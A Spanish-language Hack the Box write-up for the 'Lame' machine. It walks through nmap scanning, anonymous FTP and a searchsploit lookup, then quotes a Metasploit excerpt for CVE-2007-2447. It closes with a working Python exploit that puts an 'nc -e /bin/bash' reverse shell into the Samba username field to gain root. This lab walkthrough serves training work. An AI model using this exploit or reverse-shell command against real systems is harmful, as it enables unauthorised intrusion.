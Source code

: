 ```yaml
---
layout: single
title: Lame - Hack the Box (Español)
date: 2021-05-10
classes: wide
header:
  teaser: /assets/images/lame-writeup/lame_logo.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - HTB
  - SMB vulnerability
---
```


Esta es una de las maquinas mas sencillas de la lista de TJNULL para la preparacion OSCP, en este desafio nos encontramos con uno que otro servicio que parecen vulnerables mas el servicio a explotar es SMB debido a una vulnerabilidad que permite ejecutar codigo de manera remota con privilegios de usuario root. 



## Solucion de la maquina Lame de Hack the Box

Identificamos todos los puertos que tiene abierto el sistema :

```
> nmap -p- 10.10.10.3

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```

Obtenemos las versiones y contenido extra gracias a los scripts de nmap :

```
> nmap -sC -sV -p21,22,139,445,3632 10.10.10.3

21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.9
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

Al tener ftp abierto intentamos conectarmos para inspeccionar los archivos dentro de este servidor :

```
> ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:x0pr4nt3s): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```

No hay contenido dentro.

Investigamos la version del servicio Samba -> 3.0.20-Debian :

```
> searchsploit samba 3.0.20

---------------------------------------------------------------- ----------------------------
 Exploit Title                                                  |  Path
---------------------------------------------------------------- ----------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass          | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execu | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                           | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                           | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                   | linux_x86/dos/36741.py
---------------------------------------------------------------- ----------------------------
```

La unica posible vulnerabilidad que nos podria servir seria : unix/remote/16320.rb , una vez revisamos el contenido de esta vemos el PoC de la vulnerabilidad y en caso esta no se entienda tambien tenemos el CVE :

```ruby
#  ['CVE', '2007-2447' ]

def exploit
	connect
	# lol?
	username = "/=`nohup " + payload.encoded + "`"
	begin
		simple.client.negotiate(false)
		simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
	rescue ::Timeout::Error, XCEPT::LoginError
	# nothing, it either worked or it didn't ;)
	end
```

Lo que podemos entender de esta vulnerabilidad es que una vez nos conectemos al servicio samba, al tratar de loggearnos podemos hacer uso de los metacaracteres para poder ejecutar comandos en el sistema. Ahora para entablarnos una shell podriamos usar el comando "nohup " antes de este ya que permite mantener nuestro proceso(comando) en ejecucion. Por lo que usariamos un payload como este :

``` 
"/=`nohup nc -e /bin/bash <host> <port>`"
```

para entablarnos una reverse shell.

Dicho esto creamos un exploit para conectarnos y entablarnos la reverse shell :

```python
# Author: Cristhoper Heredia aka ( x0pr4nt3s )
# CVE-2007-2447
# +-------------------------------------------+
# |Requerimientos :                           |
# |  - pysmb : pip install pysmb              |
# +-------------------------------------------+


from smb.SMBConnection import SMBConnection
import sys

target="" 
target_port=""
lhost=""
lport=""

def help_panel():
    print("Usage :")
    print("python3 cve-2007-2447.py <rhost> <rport> <lhost> <lport>")

try:
    if(len(sys.argv)==5):
        target=sys.argv[1]
        target_port=sys.argv[2]
        lhost=sys.argv[3]
        lport=sys.argv[4]
    else:
        help_panel()
        sys.exit()
except:
    sys.exit()

payload="/=`nohup nc -e /bin/bash "+lhost+" "+lport+ "`"
try:
    conexion=SMBConnection(payload,"","","")
    print('Conectando...')
    conexion.connect(target,int(target_port))
except:
    print("Error...")

```

Probamos el exploit :

``` 
python3 cve-2007-2447.py 10.10.10.3 445 10.10.14.9 443
```

![root](/assets/images/lame-writeup/root_lame.png)

y listo rooteamos la maquina!!!











